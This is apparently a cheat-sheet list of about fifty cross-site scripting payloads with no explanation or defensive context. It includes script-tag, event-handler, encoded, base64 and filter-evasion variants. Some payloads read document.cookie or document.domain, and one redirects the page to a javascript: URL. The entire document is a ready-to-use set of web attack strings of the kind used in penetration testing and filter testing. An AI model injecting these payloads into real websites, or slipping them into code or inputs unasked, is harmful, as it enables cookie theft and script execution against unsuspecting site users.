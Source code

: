 <noscript><p title="</noscript><img src=x onerror=alert(1)>">
\"><img src=x onerror=prompt(document.domain);>
<script>+-+-1-+-+confirm(1)</script>
</b><script>alert(document.cookie)</script><b><svg onload=alert(1)-->
xss"><svg/onload=alert(document.domain)>
<x '="foo"><x foo='><img src=x onerror=javascript:alert(1)//'>
'>&lt;/b&gt;%3Cscript%3Ealert(document.cookie)%3C/script%3E%3Cb&gt;&lt;!--
test@gmail.com%27\%22%3E%3Csvg/onload=alert(/xss/)%3E
<xmp><img title="</xmp><img src onerror=alert(1)>"></xmp>
<Script>alert()</Script>
/* <audio src=1 onloadstart=alert&lpar;1&rpar;//> */
“=””’></><script></script><svg onload=alert(1)>
%00<script>alert(1);</script>
<object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+></object>
'"/><img src= x onerror=prompt(/xss/)>
%3E'><script>alert(2);</script>
/<script>alert(1234)</script>
??"><img/src/onerror=alert(document.domain)>
"><img src="x" onerror=alert(1337) />
<iframe src=javascript:alert(1)>
<script/%00%00v%00%00>document.location.href=location.hash.slice(1)</script>#javascript:alert(document.cookie)
<script>alert()</script>”/></style>
</tag><svg onload=alert(1)>
≋ "><!'/*"*\'/*\"/*--></Script><Image SrcSet=K */; OnError=confirm(document.domain) //># ≋
">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(1)//'>
<select autofocus onfocus=alert(1)>
'>👽💻🔥<script>alert(2);</script>
<title>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e</title>
"></select><img%20src=1%20onerror=alert(1)>
<script src=data:text/javascript;base64,%59%57%78%6c%63%6e%51%6f%4d%53%6b%3d></script>
%22%3C!--%3E%3CSvg%20OnLoad=confirm?.(/d3rk%F0%9F%98%88/)%3C!--1%22%29%22%3C%21--%3E%3CSvg+OnLoad%3Dconfirm%3f%2e%28%2fd3rk%F0%9F%98%88%2f%29%3C%21--
'"><script>alert(2);</script>
%E5%98%8D%E5%98%8A%20<img src=1 onerror=alert(1)>
<svg id=alert(1) onload=eval(id)>
<iframe src=java&Tab;sc&Tab;ript:al&Tab;ert()></iframe>
<svg><script>123<1>alert(123)</script>

%22%3E%3Cobject%20data=data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%3E%3C/object%3E
<iMg onerror=alert(1) src=a>
<svg><circle><set onbegin=prompt(1) attributename=fill>
<img/src/onerror=alert//&NewLine;(2)>
<img/src/onerror=alert(`ibro`)>
%3cscript%3ealert(1)%3c/script>
<svg/onrandom=random onload=confirm(1)>
<%<script>alert(1)</script>
<svg><script>//&NewLine;confirm(1);</script </svg>
<iframe/src="data:text/html,<svg onload=alert(1)>">
--><script>alert(123)</script>
%3F%20<script>alert(1)</script>
"><img src=x onerror=prompt(document.domain);>
%3cscript%3ealert(1)%3c/script%3e